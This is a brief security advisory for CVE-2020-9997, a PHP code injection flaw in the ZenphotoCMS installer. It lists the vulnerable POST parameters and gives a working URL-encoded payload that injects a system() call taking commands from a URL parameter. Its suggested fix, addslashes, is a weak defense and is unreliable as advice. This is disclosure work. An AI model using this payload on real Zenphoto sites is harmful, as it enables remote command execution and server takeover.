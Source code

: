 ```yaml
---
cve: "CVE-2020-9997"
title: "Code injection in ZenphotoCMS v1.5.6 and prior"
date: 2020-02-11
draft: yes
tags:
- code injection
- rce
---
```

Zenphoto v1.5.6 and prior is prone to Code Injection. An attacker could leverage the issue to perform OS Command Execution.

- mitre: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-9997

<hr />

**Description:**  
The installation process is prone to PHP code injection which leads to a remote code execution. The vulnerable POST parameters are:
`db_software`, `db_user`, `db_pass`, `db_host`, `db_database`

**Environment:**  
Version: 1.5.6  
OS: Ubuntu 16.10  
Web server: Apache 2.4.18  
PHP: 7.4.2  
Database: MySQL 5.7.28  
URL: `/zp-core/setup/`  

**Payload:**  
```db=yes&xsrfToken=490edd5bf985248c832425d350602f5bb1c8043d&db_software=MySQLi%22%3Bsystem%28%24_GET%5B%27c%27%5D%29.%22&db_user=test%22%3Bsystem%28%24_GET%5B%27c%27%5D%29.%22&db_pass=test&db_host=localhost%22%3Bsystem%28%24_GET%5B%27c%27%5D%29.%22&db_database=zenphoto%22%3Bsystem%28%24_GET%5B%27c%27%5D%29.%22&db_prefix=zp_```

**Recommendation:**  
A simple addslashes would do the trick to protect against single and double quotes.

**PoC:**  
![cve-2020-2997](/images/cve-2020-2997.png)
